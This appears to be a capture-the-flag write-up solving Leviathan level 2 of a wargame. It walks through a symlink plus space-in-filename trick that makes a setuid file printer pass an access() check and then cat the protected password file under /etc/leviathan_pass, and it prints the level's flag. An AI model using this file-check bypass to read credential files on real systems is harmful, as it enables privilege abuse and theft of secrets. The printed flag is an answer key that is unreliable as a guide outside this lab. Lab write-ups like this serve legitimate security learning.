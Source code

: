 # leviathan level2 Solution

we will create link file for the password file in the name "link"
`ln -sf /etc/leviathan_pass/leviathan3 link`.
then, we will create file which named "link bla".
`touch "link bla"`
and then, we'll execute the printfile with our file:
`~/printfile "link bla"`.
also, we need to change the permission of our directory, that the user leviathan3 will be able to access files.
`chmod +x .`

the exploit based on the fact that the access function returns 0 for the file "link bla", because it's fine.

however, it than execute `/bin/cat link file`, which divided to 2 different commands.

![alt text](./images/level2.png)


**Flag:** ***`f0n8h2iWLP`*** 
